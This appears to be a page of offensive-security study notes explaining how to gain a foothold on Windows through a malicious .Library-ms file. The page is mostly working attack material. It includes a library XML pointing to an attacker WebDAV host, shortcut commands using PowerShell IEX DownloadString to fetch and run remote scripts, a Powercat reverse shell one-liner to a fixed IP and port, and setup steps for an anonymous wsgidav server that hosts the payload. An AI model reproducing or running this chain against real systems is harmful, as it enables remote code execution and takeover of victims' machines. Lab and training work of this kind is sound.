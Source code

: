 Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a .Library-ms file extension and can be executed by double-clicking them in Windows Explorer.

{% hint style="info" %}
Lesser known than macros but equally effective, useful when we do not know if Office is installed on the target.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```xml
# 1 - Windows Library files to get foothold and set up 2nd stage /// 2 - provide executable file and start a revshell

# NOTE : Don’t start yet the wsgidav server , that way you DON’T open the config-Library.ms by accident

https://docs.microsoft.com/en-us/windows/win32/shell/library-schema-entry and check Related topics
# On a Windows VM, open Visual Studio Code or Notepad and create an empty file with the name config.Library-ms
<?xml version="1.0" encoding="UTF-8"?> 
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library"> 
<name>@windows.storage.dll,-34582</name> 
<version>6</version> 
<isLibraryPinned>true</isLibraryPinned> 
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo> 
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> 
</templateInfo> 
<searchConnectorDescriptionList> 
<searchConnectorDescription> 
<isDefaultSaveLocation>true</isDefaultSaveLocation> 
<isSupported>false</isSupported> 
<simpleLocation> 
<url>http://$ATTACKER_IP</url> 
</simpleLocation> 
</searchConnectorDescription> 
</searchConnectorDescriptionList> 
</libraryDescription>
```
{% endcode %}

{% hint style="info" %}
DON’T double click the new file, else inside it will change, like leave it like that!
{% endhint %}





{% code overflow="wrap" fullWidth="true" %}
```bash
# Then create the shortcut file > right-click on the Desktop > New > Shortcut > Type the location of the item and write this
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ATTACKER_IP:8000/Inv-Pow.ps1')"
# Or Powercat
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"

- Transfer those files to our attacking machine inside /home/kali/webdav

# We set up WebDAV share. If error check https://peps.python.org/pep-0668/
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
# WebDAV running, confirm visiting localhost on browser
```